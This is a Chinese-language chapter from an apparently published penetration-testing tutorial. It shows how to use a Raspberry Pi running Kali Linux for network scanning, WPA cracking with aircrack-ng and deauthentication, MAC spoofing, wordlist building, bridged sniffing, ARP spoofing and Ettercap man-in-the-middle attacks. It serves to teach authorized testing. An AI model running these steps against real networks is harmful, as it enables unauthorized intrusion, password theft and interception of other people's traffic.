# 第三章：渗透测试

到目前为止，我们已经介绍了如何构建树莓派，安装 Kali Linux，并通过各种形式的远程访问技术准备好了树莓派进行渗透测试。现在，您已经准备好学习如何使用树莓派在目标网络上捕获数据。本章将为您提供各种基于 LAN 和无线的攻击场景，使用 Kali Linux 中的工具，这些工具经过了针对树莓派的优化，或者您可以使用`apt-get`命令下载的工具。Kali Linux 中还有其他工具，以及在线工具；然而，我们将专注于我们发现在树莓派上正常运行的应用程序。

本章将涵盖以下主题：

+   网络扫描

+   Nmap

+   无线安全

+   破解 WPA/WPA2

+   创建单词列表

+   在网络上捕获流量

+   将数据传输到 Pi

+   调整您的网络捕获

+   为未来访问编写 tcpdump 脚本

+   Wireshark 和 TShark

+   用 SSLstrip 击败 HTTPS

### 提示

由于其大小和处理能力有限，树莓派的性能能力有限。强烈建议在使用树莓派进行实时渗透测试之前，在实验室中测试以下技术。

# 网络扫描

网络侦察通常是耗时的，但在执行渗透测试时是最重要的一步。您对目标了解得越多，就越有可能找到最快和最简单的成功路径。最佳实践是从不需要与目标互动的侦察方法开始；然而，最终您将需要进行联系。在进行联系时，您需要识别目标系统上的任何开放端口，并绘制出其连接的环境。一旦您侵入了一个系统，通常还有其他网络可以扫描，以更深入地访问您的目标网络。我们将在第四章 *树莓派攻击*中介绍侵入系统。

树莓派的一个巨大优势是其大小和移动性。通常，Kali Linux 是从目标网络外部的攻击系统中使用的；然而，像 PWNIE Express 和运行 Kali Linux 的小型系统，比如树莓派，可以被放置在网络内部，并且可以远程访问，正如本书的第二章 *准备树莓派*中所解释的那样。这使得攻击者可以在网络内部拥有一个系统，绕过典型的外围防御，同时进行内部侦察。这种方法带来了明显的风险，需要在网络上物理放置系统，并创建一种远程通信的方法，而不被检测到；然而，如果成功，这可能非常有效。

让我们看一下扫描目标网络的几种流行方法。我们将继续前进，假设您已经在网络上建立了一个立足点，现在想要了解您已连接到的当前环境。

## Nmap

用于扫描网络上主机和服务的最流行的开源工具是**Nmap**（**网络映射器**的缩写）。Nmap 的高级功能可以检测系统上运行的不同应用程序，并提供诸如 OS 指纹识别功能之类的服务。Nmap 可能非常有效；然而，除非使用正确，否则也很容易被检测到。我们建议在非常特定的情况下使用 Nmap，以避免触发目标的防御系统。

### 注意

有关如何使用 Nmap 的更多信息，请访问[`nmap.org/`](http://nmap.org/)。

要使用 Nmap 扫描本地网络，请打开终端窗口并键入`nmap（目标）`，例如`nmap www.somewebsite.com`或`nmap 192.168.1.2`。还有许多其他命令可用于调整扫描。例如，您可以调整您希望多隐秘，或指定将结果存储在特定位置。下面的屏幕截图显示了针对[www.thesecurityblogger.com](http://www.thesecurityblogger.com)运行 Nmap 后的结果。请注意，这只是一个示例，被认为是一个嘈杂的扫描。如果您只输入前面两个命令中的任何一个，您的目标很可能会轻松地认识到您正在执行 Nmap 扫描。



有很多在线资源可供学习如何掌握 Nmap 的各种功能。我们将在本章后面展示使用 Nmap 的其他示例。以下是流行的`nmap`命令的参考列表：

+   `nmap 192.168.1.0/24`：这将扫描整个 C 类范围

+   `nmap -p <端口范围>`：这将扫描特定端口

+   `nmap -sP 192.168.1.0/24`：这将扫描网络/查找正在运行的服务器和设备

+   `nmap –iflist`：这显示主机接口和路由

+   `nmap –sV 192.168.1.1`：这检测远程服务的版本号

+   `nmap –sS 192.168.1.1`：这执行隐秘的 TCP SYN 扫描

+   `nmap –sO 192.168.1.1`：这将扫描 IP 协议

+   `nmap -192.168.1.1 > output.txt`：这将扫描结果保存到文本文件中

+   `nmap –sA 192.168.1.254`：这检查主机是否受防火墙保护

+   `nmap –PN 192.168.1.1`：这在主机受防火墙保护时进行扫描

+   `nmap --reason 192.168.1.1`：这显示端口处于特定状态的原因

+   `nmap --open 192.168.1.1`：这只显示打开或可能打开的端口

### 注意

Kali Linux ARM 映像中不包括 Nmap GUI 软件 Zenmap。在树莓派上运行 Kali Linux 时，不建议使用命令行之外的方式。

## 无线安全

在 Raspberry Pi 上使用 Wi-Fi 适配器的另一个攻击向量是针对移动平板电脑和笔记本电脑等无线设备。一旦连接，扫描无线网络就类似于在局域网上进行扫描；但是，通常需要解密密码才能连接到无线网络。此外，无线网络标识符称为**服务集标识符**（**SSID**）可能不会被广播，但在使用正确的工具时仍然可见。本节将介绍如何绕过无线入网防御，以便访问目标的 Wi-Fi 网络并执行本书中描述的渗透测试步骤。

在使用 Kali Linux 的 Raspberry Pi 上，一个用例是将系统隐藏在或靠近目标网络内，并远程发动无线攻击。目标是使 Raspberry Pi 能够无线访问网络，并提供远程连接回攻击者。攻击者可以在附近使用无线来控制 Raspberry Pi，直到它获得无线访问。一旦进入网络，就可以建立后门，以便攻击者可以从世界任何地方与 Raspberry Pi 通信并发动攻击，如第二章中所述，“准备 Raspberry Pi”。我们将在 Raspberry Pi 攻击的*Rogue access honeypots*部分中介绍使用恶意访问点构建此攻击示例。

# 破解 WPA/WPA2

保护无线网络的常见安全协议是**Wi-Fi Protected Access**（**WPA**）。WPA 后来被 WPA2 取代，当您进行无线渗透测试时，可能会遇到 WPA2。

WPA 和 WPA2 可以通过**Aircrack**破解。Kali Linux 包括 Aircrack 套件，这是最流行的破解无线安全的应用之一。Aircrack 通过收集在无线连接上看到的数据包来进行数学分析，以破解较弱的协议，比如**Wired Equivalent Privacy**（**WEP**），或者使用一个单词列表对捕获的数据进行暴力破解。

破解 WPA/WPA2 是因为客户端和接入点之间的四次握手存在漏洞。简而言之，客户端将对接入点进行身份验证，并经过一个四步过程。这是攻击者能够抓取密码并使用暴力破解方法来识别它的时间。这个过程中耗时的部分取决于网络密码的独特性，用于暴力破解密码的单词列表的广泛程度，以及系统的处理能力。不幸的是，树莓派缺乏处理能力和硬盘空间来容纳大型的单词列表文件。所以，你可能需要使用**John the Ripper**等工具在离线系统上破解密码。我们建议大多数 WPA2 破解尝试采用这种方法。

这是使用树莓派的内置选项来破解 Linksys WRVS4400N 无线路由器上运行的 WPA 的过程。我们使用 WPA 的例子，以便可以快速完成树莓派上耗时的部分。大多数 WPA2 破解示例在树莓派上运行会花费很长时间；然而，要遵循的步骤是相同的，可以在更快的离线系统上运行。

步骤如下：

1.  通过打开终端并输入`airmon-ng`来启动 Aircrack；

1.  在 Aircrack 中，我们需要选择用于攻击的所需接口。在上一张截图中，`wlan0`是我的 Wi-Fi 适配器。这是一个插入我的树莓派的 USB 无线适配器。

1.  建议在破解外部无线网络时隐藏你的 Mac 地址。Kali Linux ARM 不包含**macchanger**程序。所以，你应该在终端窗口中使用`sudo apt-get install macchanger`命令来下载它。还有其他改变 Mac 地址的方法，但 macchanger 可以提供一个伪装的 Mac 地址，使你的设备看起来像一个常见的网络设备，比如打印机。这可以是一个有效的避免被发现的方法。

1.  接下来，我们需要停止用于攻击的接口，这样我们就可以改变我们的 Mac 地址。所以，对于这个例子，我们将使用以下命令停止`wlan0`：

```
airmon-ng stop wlan0
ifconfig wlan0 down

```

1.  现在，让我们改变这个接口的 Mac 地址，以隐藏我们的真实身份。使用 macchanger 将你的 Mac 地址更改为一个随机值，并指定你的接口。有选项可以切换到另一种设备类型；然而，对于这个例子，我们将只将其保留为一个随机的 Mac 地址，使用以下命令：

```
macchanger -r wlan0

```

我们的随机值在下面的截图中是`b0:43:3a:1f:3a:05`。Macchanger 显示我们的新 Mac 地址为`unknown`。



1.  现在我们的 Mac 地址已经伪装好了，让我们用以下命令重新启动`airmon-ng`：

```
airmon-ng start wlan0

```

1.  我们需要找到可用的无线网络，这样我们就可以选择我们要攻击的目标。使用以下命令来做到这一点：

```
airodump-ng wlan0

```

1.  现在你应该看到树莓派范围内可以成为攻击目标的网络。一旦你确定了一个目标，按下*Ctrl* + *C*停止搜索。你应该记下 Mac 地址，也称为`BSSID`，以及频道，也称为`CH`，被你的目标网络使用。下面的截图显示了我们的目标`ESSID` **HackMePlease** 在`CH` `6`上运行`WPA`：

1.  下一步是对刚刚复制的 Mac 地址运行`airodump`。你需要以下东西来使这个工作：

+   目标正在使用的信道

+   你复制的 Mac 地址（`BSSID`）

+   保存你的数据的文件名

让我们以以下方式运行`airodump`命令：

```
airodump-ng –c [channel number] –w [name of file] –-bssid [target ssid] wlan0

```

执行此命令后，将打开一个新的终端窗口。保持该窗口打开。

打开另一个终端窗口，用于连接到目标的无线网络。我们将使用以下命令运行`aireplay`：

```
aireplay-ng-deauth 1 –a [target's BSSID] –c [our BSSID] [interface]

```

对于我们的示例，命令将如下所示：

```
aireplay-ng -–deauth 1 –a 00:1C:10:F6:04:C3 –c 00:0f:56:bc:2c:d1 wlan0

```

以下截图显示了上述命令的启动：



### 注意

当您运行此命令时，您可能无法获得完整的握手。如果发生这种情况，您将不得不等待一个活跃的用户在发动攻击之前对您进行身份验证。使用 Aircrack 时的输出可能会显示类似于**打开[file].cap**几次，然后是**未找到有效的 WPA 握手**，如果您在那时没有创建完整的握手并且有人还没有对您进行身份验证。在捕获完整的握手之前，请不要进行下一步操作。

1.  最后一步是对捕获的数据运行 Aircrack 以破解 WPA 密钥。使用`-w`选项指定要针对捕获的数据进行扫描的单词列表的位置。您将使用在第 9 步中创建的`.cap`文件，因此我们的示例中将使用名称`capturefile.cap`。我们将使用以下命令进行此操作：

```
Aircrack-ng –w ./wordlist.lst wirelessattack.cap

```

### 提示

Kali Linux ARM 映像不包括用于破解密码的`wordlist.lst`文件。通常，默认的单词列表也不好。因此，建议您使用 Google 查找详尽的单词列表（有关更多信息，请参见下一节有关单词列表的内容）。请注意您在树莓派上的硬盘空间，因为许多单词列表可能太大，无法直接从树莓派使用。运行诸如暴力破解密码之类的进程密集型步骤的最佳做法是在性能更强大的系统上进行。

您将看到 Aircrack 开始并开始尝试单词列表文件中的每个密码与捕获的数据进行匹配。这个过程可能需要一段时间，具体取决于您要尝试破解的密码、列表中的单词数量以及树莓派的处理速度。我们发现这个过程可能需要几个小时到几天，因为这是一个非常繁琐的过程，可能更适合于比树莓派更强大的外部系统。您可能还会发现，在等待几天来整理整个单词列表文件后，您的单词列表不起作用。

### 注意

如果 Aircrack 没有打开并开始尝试针对密码的密钥，那么您要么没有指定`.cap`文件的位置或`wordlist.lst`文件的位置，要么您没有捕获到握手数据。默认情况下，先前的步骤会将文件存储在根目录中。您可以将您的 wordlist 文件移动到根目录中，以模仿我们在先前步骤中运行命令的方式，因为我们所有的文件都位于根目录文件夹中。您可以通过输入`ls`来列出当前目录中的文件，以验证这一点。确保列出每个命令调用的每个文件的正确目录。

如果您的攻击成功，您应该会看到类似于以下截图，显示已识别的密码为**sunshine**：



在远程机器上执行此最后一步是个好主意。您可以设置 FTP 服务器并将您的`.cap`文件推送到该 FTP 服务器，或者使用本章后面找到的*为将来访问编写 tcpdump 脚本*部分中介绍的类似步骤。

### 提示

您可以在[`www.raspberrypi.org/forums/viewtopic.php?f=36&t=35661`](http://www.raspberrypi.org/forums/viewtopic.php?f=36&t=35661)了解有关设置 FTP 服务器的更多信息。

## 创建单词列表

有许多来源和工具可用于开发攻击的字典。一个名为**自定义字典生成器**（**CeWL**）的流行工具允许您创建自己的自定义字典文件。如果您的目标是个人，并且想要从他们的博客、LinkedIn 或其他网站中获取常用词，这将非常有用。CeWL 不是预装在 Kali Linux ARM 映像上的，因此您需要使用`apt-get install cewl`进行下载。

要使用 CeWL，打开终端窗口并输入您的目标网站。CeWL 将检查 URL 并根据找到的所有唯一单词创建一个字典。在以下示例中，我们使用以下命令创建了一个在安全博客[www.drchaos.com](http://www.drchaos.com)上找到的常用词的字典：

```
cewl www.drchaos.com -w drchaospasswords.txt

```

以下屏幕截图显示了上述命令的启动：


您还可以在互联网上找到许多流行的字典文件示例。以下是一些您可以使用的字典示例来源；但是，还要确保在 Google 上研究其他选项：

+   [`crackstation.net/buy-crackstation-wordlist-password-cracking-dictionary.html`](https://crackstation.net/buy-crackstation-wordlist-password-cracking-dictionary.html)

+   [`wiki.skullsecurity.org/Passwords`](https://wiki.skullsecurity.org/Passwords)

以下是本书的合著者之一整理的一个字典：

[`www.drchaos.com/public_files/chaos-dictionary.lst.txt`](http://www.drchaos.com/public_files/chaos-dictionary.lst.txt)

## 在网络上捕获流量

获得对目标网络的访问是很好的。但是，通常一旦建立了立足点，下一步就是开始查看数据。为此，您需要一种捕获和查看网络数据包的方法。这意味着将您的树莓派变成一个远程可访问的网络监听器。

### 提示

许多这些工具可能会使您的树莓派超载并崩溃。请注意我们关于何时使用调整方法以避免发生这种情况的建议。

## Tcpdump

Tcpdump 是基于命令行的数据包分析器。您可以使用`tcpdump`来拦截和显示传输和系统附加的 TCP/IP 和其他数据包。这意味着树莓派必须能够访问您打算查看的网络流量，否则使用 tcpdump 将不会为您提供任何有用的数据。Tcpdump 未与默认的 Kali Linux ARM 映像一起安装，因此您需要使用`sudo apt-get install tcpdump`命令进行安装。

安装后，您可以通过简单地打开终端窗口并输入`sudo tcpdump`来运行`tcpdump`。以下屏幕截图显示了上述命令启动后我们可见的流量流：



正如前面的屏幕截图所示，如果没有正确的流量通过树莓派，实际上没有什么可见的。基本上，我们在插入到 802.1X 启用的交换机中时看到了自己的流量，这并不有趣。让我们看看如何通过树莓派获取其他系统的数据。

### 提示

运行`tcpdump`会消耗大量树莓派的处理能力。我们发现这可能会导致树莓派自己崩溃，或者在使用其他应用程序时崩溃。我们建议您调整数据捕获，以避免发生这种情况。数据捕获的调整将在本章后面介绍。

## 中间人攻击

捕获敏感信息的一种常见方法是执行中间人攻击。根据定义，中间人攻击是指攻击者在积极窃听通信的同时与受害者进行独立连接。这通常是在主机和系统之间完成的。例如，捕获密码的一种常见方法是在用户传递给 Web 服务器的登录凭据之间充当中间人。我们将介绍这个以及在 Kali Linux 中找到的几种其他常见的中间人攻击方法。

让我们看一下用于将数据传输到您的树莓派的中间人攻击的几个版本。

# 将数据传输到 Pi

有几种方法可以将数据传输到您的树莓派。一种方法是使用两个以太网端口将树莓派放置在两个系统之间。这需要一个 USB 到以太网适配器，并且需要能够以这种方式物理连接树莓派。在下面的示例中，我们将 Windows 笔记本电脑连接到我们的树莓派的一端，将网络交换机连接到另一端。其中一个以太网端口是一个 USB 适配器。

对于实时渗透测试，您可以自定义树莓派的保护外壳，如下图所示，以模仿从电源插头到网络中心的任何东西，以隐藏您的攻击系统。我们发现，如果看起来像属于那里的东西，普通人不会去碰网络设备上连接的小盒子。曾经，我们还将树莓派放在办公文具中，比如一个空的闹钟，以在授权的渗透测试期间将其隐藏起来。



树莓派需要配置为将目标系统的以太网端口桥接到面向网络的端口，反之亦然，以便查看流量。如果不这样做，流量将在到达树莓派后中断。在执行此操作之前，您需要安装将用于将两个端口桥接在一起的`bridge`实用程序。要安装此程序，请使用`apt-get install bridge-utils`命令。安装完成后，以下是将树莓派用于网络监听目的的桥接程序。

### 提示

以这种方式设置树莓派也是将其用作入侵检测/预防资产的理想选择。我们将在第六章中介绍这一点，*其他树莓派项目*。

1.  您需要将两个以太网端口都配置为开放 IP 地址，也就是将它们设置为`0.0.0.0`。要做到这一点，请使用以下命令为两个接口设置`ifconfig eth[interface number] 0.0.0.0`命令：

```
Ifconfig eth0 0.0.0.0
Ifconfig eth1 0.0.0.0

```

### 注意

在执行此操作之前，请确保下载`bridge-utils`实用程序，否则您将需要将面向互联网的接口恢复到工作状态，以便在继续之前下载该实用程序。另一个解决方法是临时安装 USB 到 Wi-Fi 适配器或另一个 USB 到以太网适配器，以恢复在线状态并下载缺少的应用程序。

1.  接下来，我们将使用`brctl`命令将接口桥接到`bridge0`接口，并添加两个以太网接口：

```
brctl addbr bridge0
brctl addif bridge0 eth0
brctl addif bridge0 eth1

```

如果您尚未安装`bridge-utils`实用程序，则此命令将无法工作。

1.  最后一步是使用以下命令打开包含两个以太网接口的新桥：

```
Ifconfig bridge0 up

```

以下屏幕截图显示了所有命令的外观：



以下屏幕截图显示了 tcpdump 查看流量的输出，当目标笔记本电脑浏览互联网时：



### 提示

你可能会发现一些流量，比如基于 Web 的 SSL 流量是加密的。我们将在本章后面介绍如何使用 SSLstrip 来击败这一点。

通过树莓派获取数据的另一种方法是使用中间人方法从同一网络子网上的系统重定向流量，这样您就不必处理目标的物理连接。让我们看看这是如何工作的。

### 注意

许多由 Cisco 和 Juniper 等厂商制造的网络交换机提供了避免**地址解析协议**（**ARP**）中毒的技术。因此，我们建议在真实的渗透测试环境中使用网络监听器方法。

## ARP 欺骗

使用树莓派捕获数据的第二种方法是在同一网络上识别目标系统，并通过树莓派 ARP 欺骗其流量。为此，您需要下载`dsniff`软件包，因为它不是预装在 Kali Linux ARM 镜像上的。在启动 ARP 欺骗练习之前，使用`sudo apt-get install dsniff`命令安装软件包。安装`dsniff`后，您就可以使用以下步骤开始 ARP 欺骗攻击：

### 注意

如果目标交换机启用了 ARP 中毒防范措施，这种方法将无效。例如，在 Cisco 交换机上，启用**DHCP 监听**和**动态 ARP 检查**将阻止这种攻击。在 Cisco 交换机上，这些命令看起来像`ip dhcp snooping`和`ip arm inspection vlan [vlan number]`。

1.  启用 IP 转发以启用 ARP 欺骗，以便将数据包在目标和树莓派之间传递，使用以下命令：

```
echo 1 > /proc/sys/net/ipv4/ip_forward

```

### 提示

您可以使用`cat`命令验证 IP 转发是否已启用，以在屏幕上显示**1**，表示它正在运行。命令如下：

```
cat /proc/sys/net/ipv4/ip_forward

```

1.  现在，您需要找到树莓派连接的网络的默认网关和子网掩码。您可以使用以下命令找到这些信息：

```
netstat –nr

```

以下截图显示了我们的默认网关是`10.0.2.1`，位于 C 类网络上，也称为网络掩码`255.255.255.0`：



1.  接下来，让我们确定一个要攻击的目标。正如本章前面提到的，`nmap`是一个很好的工具，可以用来识别网络上有哪些系统。在这种情况下，我们想要使用`-R`进行反向查找，并包括`sn`以避免端口扫描，因为我们只是在寻找一个目标。之前的截图显示默认网关网络是 C 类，所以我们可以使用以下命令使用`nmap`扫描整个子网以寻找目标：

```
nmap –Rsn 10.0.2.0/24

```



我们的扫描显示了一个 IP 地址为`10.0.2.63`的`Dell`笔记本电脑可以被我们攻击。其他设备看起来像是`Cisco`和`Meraki`网络设备。让我们瞄准主机笔记本电脑。

1.  现在是时候开始 ARP 缓存中毒，欺骗我们的目标和默认网关之间的流量，以便我们可以窃取该流量。我们的接口是`eth0`，由`-i`选项表示，目标是`10.0.2.63`，由`-t`选项表示，而默认路由，也称为网关，是`10.0.2.1`。这由`-r`选项表示。命令如下：

```
arpspoof –i eth0 –t 10.0.2.63 –r 10.0.2.1

```

### 注意

在这种情况下，我们使用树莓派上的物理以太网适配器进行攻击。如果您使用 USB 无线适配器，您很可能会使用`wlan0`作为您的接口。

1.  您应该开始在窗口中看到 ARP 缓存中毒的流量，如下面的截图所示。保持此窗口打开，并运行诸如 Wireshark 之类的工具来查看数据捕获的流量。我们将在本章后面介绍这一点。

## Ettercap

有一些工具可以简化 ARP 欺骗或端口桥接过程。Ettercap 是一个非常受欢迎的中间人攻击套件，包括先前描述的处理 ARP 欺骗步骤。它的其他关键功能包括嗅探实时连接，动态过滤内容以及对受害者进行各种其他攻击。有关此工具的更多信息，请访问[ettercap.github.io/ettercap/](http://ettercap.github.io/ettercap/)。

Kali Linux ARM 镜像不包括 Ettercap。在运行`apt-get install ettercap`命令后，有两种安装 Ettercap 的选项，如下面的屏幕截图所示。我们将首先使用 Ettercap GUI 选项，并使用`apt-get ettercap-graphical`命令进行安装。



安装完成后，要运行 Ettercap，请键入`sudo ettercap -G`。这将显示 Ettercap GUI，如下面的屏幕截图所示：



Ettercap 有两种嗅探选项。选项一是统一嗅探，这意味着通过一个接口嗅探通过电缆传输的所有数据包。此方法有选项，例如使用混杂模式，这意味着不是直接发送到主机的数据包会通过三层路由自动转发到主机。Ettercap 将禁用`内核 ip 转发`，以避免通过内核和 Ettercap 两次发送数据包。

### 注意

如果目标交换机启用了 ARP 欺骗缓解功能，则此方法将无效。例如，在思科交换机上，启用**DHCP 监听**和**动态 ARP 检查**将阻止此攻击。在思科交换机上，这些命令看起来像`ip dhcp snooping`和`ip arm inspection vlan [vlan number]`。

选项二是桥接嗅探，这意味着使用两个网络接口并在它们之间转发流量。这类似于我们在本章早些时候使用`brctl`命令桥接两个端口的方式。建议使用此嗅探方法而不是 ARP 欺骗，因为它更隐蔽，更有可能成功。这是因为先进的交换机具有对抗 ARP 欺骗攻击的方法。这种方法的缺点是以这种方式物理连接树莓派。

### 提示

以这种方式设置树莓派也是将其用作入侵检测/预防资产的理想选择。我们将在第五章中介绍这一点，*结束渗透测试*。

对于我们的示例，我们将使用统一嗅探，因为我们的树莓派正在使用一个`eth0`端口进行攻击。单击**嗅探**菜单，然后选择**统一嗅探...**，如下面的屏幕截图所示：



Ettercap 将要求您从树莓派中选择一个接口。对于此次攻击，我们只使用标准的`eth0`端口，因此我们已经选择了它，如下面的屏幕截图所示：


Ettercap 将在底部窗口显示有关插头和端口的一些详细信息。您还会注意到在顶部菜单中会出现一些新选项，如下面的屏幕截图所示。现在，我们需要扫描网络上的主机以进行攻击。您可以通过单击菜单中的**主机**，然后选择**扫描主机**来执行此操作。在 Ettercap 扫描网络目标时，您将看到一个进度条。



您将看到结果显示在文本框的底部。在我们的示例中，我们找到了四个主机。您可以单击**主机**，然后选择**主机列表**来查看主机。下面的屏幕截图显示了具有四个主机的**主机列表**：



您需要选择要放置在**目标 1**和**目标 2**区域的主机。在我们的示例中，我们将选择`10.0.2.1`，这是默认网关，作为**目标 2**。我们将使用受害系统`10.0.2.64`作为**目标 1**。这将使我们的树莓派位于这两个目标之间。

要向目标添加 IP 地址，请在**主机列表**的**IP 地址**部分中单击该 IP 地址，然后单击**添加到目标** X，其中 X 是您要添加的目标。您将看到 Ettercap 在底部窗口中显示您选择的 IP 地址已添加到您选择的目标。您还可以通过从菜单中选择**目标**，然后选择**当前目标**来验证这一点。下面的屏幕截图显示了将主机`10.0.2.64`添加为**目标 1**：



要 ARP 欺骗我们选择的目标，可以选择**Mitm**，然后选择**Arp Poisoning...**。这将弹出一个窗口，要求您在**嗅探远程连接**或**仅毒害单向**之间进行选择，如下面的屏幕截图所示。选择**嗅探远程连接**，然后单击**确定**按钮。



单击**确定**按钮后，Ettercap 应在底部窗口中显示，它正在 ARP 欺骗我们选择的**目标 1**和**目标 2**，这些目标是我们从主机扫描中选择的**组 1**和**组 2**中的所有受害者。最后一步是从**开始**菜单中选择**开始嗅探**，如下面的屏幕截图所示：

